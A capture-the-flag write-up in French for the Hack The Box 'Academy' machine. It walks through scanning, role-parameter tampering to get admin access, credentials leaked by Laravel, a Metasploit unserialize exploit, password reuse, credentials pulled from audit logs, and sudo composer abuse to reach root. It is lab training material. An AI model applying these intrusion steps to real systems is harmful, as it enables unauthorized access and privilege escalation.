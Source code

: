 # Academy - Easy

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-20 11:26 EDT
Nmap scan report for 10.10.10.215
Host is up (0.061s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://academy.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.85 seconds
```

On rajoute le nom de domaine dans notre hosts et on lance un gobuster en tâche de fond. On va lancer un sqlmap sur les pages de login et register:

```bash
[11:32:17] [CRITICAL] all tested parameters do not appear to be injectable.
```

On créé un compte et on se connecte mais rien de particulier sur le site en tant qu’user normal

Résultats du gobuster:

```bash
/login.php            (Status: 200) [Size: 2627]
/register.php         (Status: 200) [Size: 3003]
/index.php            (Status: 200) [Size: 2117]
/admin.php            (Status: 200) [Size: 2633]
/config.php           (Status: 200) [Size: 0]   
/home.php             (Status: 302) [Size: 55034] [--> login.php]
/.htaccess            (Status: 403) [Size: 276]                  
/.                    (Status: 200) [Size: 2117]                 
/.html                (Status: 403) [Size: 276]                  
/.php                 (Status: 403) [Size: 276]                  
/.htpasswd            (Status: 403) [Size: 276]                  
/.htm                 (Status: 403) [Size: 276]                  
/.htpasswds           (Status: 403) [Size: 276]                  
/.htgroup             (Status: 403) [Size: 276]                  
/wp-forum.phps        (Status: 403) [Size: 276]                  
/.htaccess.bak        (Status: 403) [Size: 276]                  
/.htuser              (Status: 403) [Size: 276]                  
/.ht                  (Status: 403) [Size: 276]                  
/.htc                 (Status: 403) [Size: 276]                  
/.htacess             (Status: 403) [Size: 276]                  
/.htaccess.old        (Status: 403) [Size: 276]
```

On retente un SQL:

```bash
[11:37:38] [CRITICAL] all tested parameters do not appear to be injectable.
```

On lance une énumération des vhosts. Rien de particulier.

Lorsque l’on analyse la requête de register on trouve ceci:

```bash
uid=test&password=test&confirm=test&roleid=0
```

On va donc essayer de modifier le roleid et se connecter sur admin.php. Cette fois-ci on peut se connecter et on tombe sur un panel de choses à faire dont:

```bash
Fix issue with dev-staging-01.academy.htb
```

On rajoute donc à notre hosts. Lorsque l’on accède au site on tombe sur une erreur et le code associé à celui-ci. On trouve un mdp sql:

```bash
DB_HOST 	

"127.0.0.1"

DB_PORT 	

"3306"

DB_DATABASE 	

"homestead"

DB_USERNAME 	

"homestead"

DB_PASSWORD 	

"secret"
```

On apprend aussi que les fichiers sont ici:

/var/www/html/htb-academy-dev-01/public  et que l’admin est : admin@htb. On sait aussi que c’est Laravel qui est utilisé. D’après l’apparence de la page c’est la version 5.X qui est utilisée

[https://www.exploit-db.com/exploits/47129](https://www.exploit-db.com/exploits/47129)

On utilise metasploit:

```bash
exploit/unix/http/laravel_token_unserialize_exec
```

On est connecté en tant que!:

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

On trouve ceci dans le .env du site academy (les creds précédents ne fonctionnent pas)

```bash
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```

Cepandant toujours impossible d’utilise mysql on essaye alors de su en tant que les différents users avec ce mdp:

```bash
drwxr-xr-x  8 root     root     4096 Aug 10  2020 .
drwxr-xr-x 20 root     root     4096 Feb 10  2021 ..
drwxr-xr-x  2 21y4d    21y4d    4096 Aug 10  2020 21y4d
drwxr-xr-x  2 ch4p     ch4p     4096 Aug 10  2020 ch4p
drwxr-xr-x  4 cry0l1t3 cry0l1t3 4096 Aug 12  2020 cry0l1t3
drwxr-xr-x  3 egre55   egre55   4096 Aug 10  2020 egre55
drwxr-xr-x  2 g0blin   g0blin   4096 Aug 10  2020 g0blin
drwxr-xr-x  5 mrb3n    mrb3n    4096 Aug 12  2020 mrb3n
```

ça fonctionne pour cry0 et on obtient le flag user

```bash
groups
cry0l1t3 adm
```

On lance linpeas:

```bash
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>                                                                             
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>

╔══════════╣ Readable files belonging to root and readable by me but not world readable                                        
-rw-r----- 1 root adm 4726 Nov  5  2020 /var/log/apt/term.log.2.gz                                                             
-rw-r----- 1 root adm 2748 Sep 14  2020 /var/log/apt/term.log.3.gz                                                             
-rw-r----- 1 root adm 463 Feb  9  2021 /var/log/apt/term.log.1.gz                                                              
-rw-r----- 1 root adm 10682 Aug 12  2020 /var/log/apt/term.log.4.gz                                                            
-rw-r----- 1 root adm 0 Mar 20 09:25 /var/log/apt/term.log                                                                                                                                                                                                    
-r--r----- 1 root adm 8388720 Sep  4  2020 /var/log/audit/audit.log.2                                                          
-rw-r----- 1 root adm 120395 Mar 20 10:37 /var/log/audit/audit.log                                                             
-r--r----- 1 root adm 8388617 Aug 23  2020 /var/log/audit/audit.log.3                                                          
-r--r----- 1 root adm 8388813 Nov  9  2020 /var/log/audit/audit.log.1                                                          
-rw-r----- 1 root adm 275 Oct 21  2020 /var/log/apache2/error.log.5.gz                                                         
-rw-r----- 1 root adm 335 Sep 12  2020 /var/log/apache2/error.log.9.gz

╔══════════╣ CVEs Check                                                                                                        
Vulnerable to CVE-2021-4034                                                                                                    
                                                                                                                               
Vulnerable to CVE-2021-3560
```

On arrive donc à se log en tant qur mrb3n:

```bash
$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

[https://gtfobins.github.io/gtfobins/composer/](https://gtfobins.github.io/gtfobins/composer/)

On obtient un shell root